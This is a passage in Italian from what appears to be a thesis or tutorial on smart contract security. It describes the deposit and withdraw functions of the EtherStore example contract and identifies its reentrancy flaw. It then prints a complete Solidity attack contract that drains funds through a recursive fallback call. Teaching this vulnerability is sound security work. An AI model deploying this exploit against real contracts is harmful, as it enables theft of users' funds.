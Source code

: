 Le funzioni invece sono:
\begin{itemize}
    \item \texttt{depositFunds()}, che si occupa di depositare fondi. La parola chiave \texttt{payable} indica che la funziona può ricevere Ether mentre viene chiamata, ovvero che il chiamante invia criptovaluta (in questo caso dal suo wallet al wallet dello smart contract). Utilizzando la parola \texttt{payable} non devo inserire l'argomento nella firma della funzione. 
    \item \texttt{withdrawFunds()}, che serve a prelevare. La parola chiave \texttt{require} funziona come \texttt{assert} in altri linguaggi. Controlla che il saldo associato al sender sia sufficiente, che la richiesta non superi il limite, e controlla che l'operazione di prelievo supera una settimana rispetto all'ultima effettuata.
\end{itemize}
La vulnerabilità si trova nella riga:

\texttt{require(msg.sender.call.value(\_weiToWithdraw)());}

Ma in cosa consiste questa vulnerabilità? Per scoprirlo vediamo un contratto malizioso:

\begin{lstlisting}[language=Solidity]
import "EtherStore.sol"

contract Attack {
    EtherStore public etherStore;
    //initialise the etherStore variable with the contract address
    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }
    
    function pwnEtherStore() public payable {
        //attack to the nearest ether
        require(msg.value >= 1 ether);
        //send eth to the depositFunds() function
        etherStore.depositFunds.value(1 ether)();
        //start the magic
        etherStore.withdrawFunds(1 ether);
    }
    
    function collectEther() public {
        msg.sender.transfer(this.balance);
    }
    
    //fallback function - where the magic happens
    function () payable {
        if (etherStore.balance > 1 ether) {
            etherStore.withdrawFunds(1 ether);
        }
    }
}
\end{lstlisting}

